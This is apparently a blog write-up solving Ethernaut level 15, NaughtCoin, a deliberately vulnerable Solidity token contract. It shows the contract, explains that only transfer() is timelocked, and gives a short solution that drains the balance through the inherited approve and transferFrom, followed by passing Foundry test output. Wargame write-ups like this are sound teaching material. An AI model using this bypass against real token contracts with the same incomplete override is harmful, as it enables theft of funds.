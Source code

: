 ###########################
Ethernaut 15: NaughtCoin
###########################
:date: 2023-09-10
:slug: ethernaut-15-naughtcoin
:summary: read what you extend folks
:tags: 
:author: capu
:featured_image:


Objective
=========
Get the player's balance to zero.

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 5 21 29

    contract NaughtCoin is ERC20 {
        // string public constant name = 'NaughtCoin';
        // string public constant symbol = '0x0';
        // uint public constant decimals = 18;
        uint256 public timeLock = block.timestamp + 10 * 365 days;
        uint256 public INITIAL_SUPPLY;
        address public player;

        constructor(address _player) ERC20("NaughtCoin", "0x0") {
            player = _player;
            INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
            // _totalSupply = INITIAL_SUPPLY;
            // _balances[player] = INITIAL_SUPPLY;
            _mint(player, INITIAL_SUPPLY);
            emit Transfer(address(0), player, INITIAL_SUPPLY);
        }

        function transfer(
            address _to,
            uint256 _value
        ) public override lockTokens returns (bool) {
            return super.transfer(_to, _value);
        }

        // Prevent the initial owner from transferring
        // tokens until the timelock has passed
        modifier lockTokens() {
            if (msg.sender == player) {
                require(block.timestamp > timeLock);
                _;
            } else {
                _;
            }
        }
    }

This contract has a timelock, preventing the user from transferring tokens out
until a year from deployment.

Solution
========

The ERC20 standard has two ways to move tokens:

- ``transferFrom``
- ``transfer``

and only the latter is overriden from the default implementation to prevent
funds moving before the timelock elapses. Therefore, using the ``transferFrom``
method is enough to get around it.

.. code-block:: solidity 

    function solution(address payable target_) internal override{
        uint256 amount = 1000000 * (10 ** 18);
        NaughtCoin target = NaughtCoin(target_);
        target.approve(attacker, amount);
        target.transferFrom(attacker, address(this), amount);
    }

.. code-block:: plain

    [I] () capu ~/s/ethernaut-solutions (master)> forge test --mc NaughtCoin
    [⠆] Compiling...
    No files changed, compilation skipped

    Running 1 test for test/15-NaughtCoin.t.sol:NaughtCoinSolution
    [PASS] testSolution() (gas: 4009231)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.44ms
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)


😎
